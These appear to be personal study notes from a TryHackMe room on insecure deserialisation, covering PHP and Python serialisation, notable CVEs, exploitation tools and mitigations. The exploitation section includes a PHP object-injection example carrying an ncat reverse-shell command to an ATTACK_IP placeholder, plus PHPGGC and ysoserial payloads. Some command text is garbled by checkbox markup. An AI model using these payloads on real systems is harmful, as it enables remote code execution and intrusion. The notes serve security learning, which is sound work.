 
📅 **Date**: 26 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: Server Side Attack
🏷️ Tags: #tryhackme #tryhackme/learn

---
# Insecure Deserialisation

## Serialisation
- [ ] **Definition**: Process of converting an object's state into a storable or transmittable format.
- [ ] **Analogy**: Like packing a school bag with books, notebooks, lunchbox, etc.
- [ ] **Purpose**: Used in web applications to transfer data between systems or networks.
- [ ] **Example in PHP**:
```php
<?php
$noteArray = array("title" => "My THM Note", "content" => "Welcome to THM!");
$serialisedNote = serialize($noteArray);  // Serialisation
file_put_contents('note.txt', $serialisedNote);  // Saving to file
?>```

## Deserialisation
- [ ] **Definition**: Process of converting serialised data back into an object.
- [ ] **Analogy**: Like unpacking a school bag to use the items.
- [ ] **Purpose**: Retrieving data from files, databases, or networks.
- [ ] **Example in PHP**:
```php
<?php
$serialisedNote = file_get_contents('note.txt');  // Reading serialised data
$noteArray = unserialize($serialisedNote);  // Deserialisation
echo "Title: " . $noteArray['title'] . "<br>";
echo "Content: " . $noteArray['content'];
?>```

## Insecure Deserialisation Vulnerabilities
- [ ] **Risk**: Attackers can manipulate serialised data to execute unauthorised actions or steal data.
- [ ] **Examples**:
    1. **Log4j Vulnerability (CVE-2021-44228)**:
        - [ ] **Impact**: Remote code execution via insecure deserialisation in Apache Log4j.
    2. **WebLogic Server RCE (CVE-2015-4852)**:
        - [ ] **Impact**: Remote code execution via maliciously crafted objects.
    3. **Jenkins Java Deserialisation (CVE-2016-0792)**:
        - [ ] **Impact**: Arbitrary code execution via crafted serialisation payloads.
## Serialisation in Different Languages
- [ ] **PHP**:
    - [ ] **Serialisation**: `serialize()` function.
    - [ ] **Deserialisation**: `unserialize()` function.
    - [ ] **Magic Methods**:
        - [ ] `__sleep()`: Called before serialisation.
        - [ ] `__wakeup()`: Called after deserialisation.
        - [ ] `__serialize()`: Custom serialisation (PHP 7.4+).
        - [ ] `__unserialize()`: Custom deserialisation (PHP 7.4+).
- [ ] **Python**:
    - [ ] **Serialisation**: `pickle.dumps()`.
    - [ ] **Deserialisation**: `pickle.loads()`.
    - [ ] **Base64 Encoding**: Used to safely transmit binary data.
	
---
## Exploitation Techniques
1. **Modifying Serialised Data**:
    - [ ] Example: Changing `isSubscribed` from `false` to `true` in a serialised cookie.
    - [ ] **Impact**: Unauthorised access to premium features.
2. **Object Injection**:
    - [ ] **Vulnerability**: Insecure deserialisation allows injecting malicious objects.
    - [ ] **Example**:
	```php
	<?php
	class MaliciousUserData {
		public $command = 'ncat - [ ]nv ATTACK_IP 4444 -e /bin/sh';
	}
	$maliciousUserData = new MaliciousUserData();
	$serializedData = serialize($maliciousUserData);
	echo base64_encode($serializedData);
	?>
	```
    - [ ] **Impact**: Remote code execution via `__wakeup()` or `__destruct()`.
	
---
## Tools for Exploitation
1. **PHPGGC (PHP Gadget Chain)**:
    - [ ] **Purpose**: Generates gadget chains for PHP object injection.
    - [ ] **Usage**:
	```bash
		php phpggc Laravel/RCE3 system whoami
	``` 
    - [ ] **Example Payload**:
```php
O:40:"Illuminate\Broadcasting\PendingBroadcast":1:{s:9:"*events";O:39:"Illuminate\Notifications\ChannelManager":3:{s:6:"*app";s:6:"whoami";s:17:"*defaultChannel";s:1:"x";s:17:"*customCreators";a:1:{s:1:"x";s:6:"assert";}}}
        ```
2. **Ysoserial (Java)**:
    - [ ] **Purpose**: Generates payloads for Java deserialisation vulnerabilities.
    - [ ] **Usage**:
```java
        java - [ ]jar ysoserial.jar CommonsCollections1 'calc.exe'
```
        
---
## Mitigation Strategies
1. **Red Team/Pentester Perspective**:
    - [ ] **Codebase Analysis**: Identify serialisation/deserialisation points.
    - [ ] **Vulnerability Identification**: Use static and dynamic analysis tools.
    - [ ] **Fuzzing**: Test with invalid or unexpected input data.
    - [ ] **Error Handling**: Assess how errors are handled during deserialisation.
2. **Secure Coder Perspective**:
    - [ ] **Avoid Insecure Formats**: Use JSON or XML instead of binary serialisation.
    - [ ] **Input Validation**: Validate and sanitise all inputs.
    - [ ] **Avoid `eval()` and `exec()`**: Prevent arbitrary code execution.
    - [ ] **Secure Coding Practices**: Follow least privilege, defence in depth, and fail-safe defaults.
    - [ ] **Adhere to Guidelines**: Follow language/framework-specific secure coding standards.

---
## Key Takeaways
- [ ] Serialisation and deserialisation are powerful but risky if not implemented securely.
- [ ] Insecure deserialisation can lead to remote code execution, data leakage, and unauthorised access.
- [ ] Tools like PHPGGC and Ysoserial automate exploitation but also help in identifying vulnerabilities.
- [ ] Mitigation involves secure coding practices, input validation, and avoiding insecure formats.
